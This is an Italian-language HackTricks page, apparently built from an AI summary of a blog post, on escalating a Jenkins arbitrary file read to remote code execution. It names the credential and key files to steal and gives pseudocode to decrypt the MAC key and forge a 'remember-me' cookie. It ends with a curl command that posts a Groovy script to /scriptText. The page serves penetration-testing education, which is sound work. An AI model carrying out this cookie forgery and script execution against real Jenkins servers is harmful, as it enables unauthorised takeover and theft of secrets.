 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In questo post del blog è possibile trovare un ottimo modo per trasformare una vulnerabilità di Local File Inclusion in Jenkins in RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Questo è un riassunto creato dall'IA della parte del post in cui l'artefatto di un cookie arbitrario viene abusato per ottenere RCE abusando di una lettura di file locale fino a quando non ho tempo per creare un riassunto da solo:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" deve essere abilitato (impostazione predefinita).
* **Access Levels:** L'attaccante ha bisogno di permessi Overall/Read.
* **Secret Access:** Capacità di leggere sia contenuti binari che testuali da file chiave.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Accedere alla configurazione utente e ai segreti da `$JENKINS_HOME/users/*.xml` per ciascun utente per raccogliere:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Estrarre le chiavi crittografiche utilizzate per firmare il cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calcolare il Tempo di Scadenza del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Aggiunge un'ora all'ora attuale
```
{% endcode %}
*   **Concatenare i Dati per il Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decriptare il File della Chiave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertire la chiave master nel formato di chiave AES128
decrypted = AES.decrypt(macFile, key)  // Decriptare il file .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Calcolare HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcolare HMAC utilizzando il token e la chiave MAC
tokenSignature = bytesToHexString(mac)  // Convertire la MAC in una stringa esadecimale
```

**Cookie Encoding**

*   **Generare il Cookie Finale:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificare in Base64 i dati del cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Recuperare i Token CSRF e di Sessione:**
* Effettuare una richiesta a `/crumbIssuer/api/json` per ottenere `Jenkins-Crumb`.
* Catturare `JSESSIONID` dalla risposta, che sarà utilizzato insieme al cookie "remember-me".

**Command Execution Request**

*   **Inviare una Richiesta POST con uno Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Lo script Groovy può essere utilizzato per eseguire comandi a livello di sistema o altre operazioni all'interno dell'ambiente Jenkins.

L'esempio di comando curl fornito dimostra come effettuare una richiesta a Jenkins con le intestazioni e i cookie necessari per eseguire codice arbitrario in modo sicuro.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
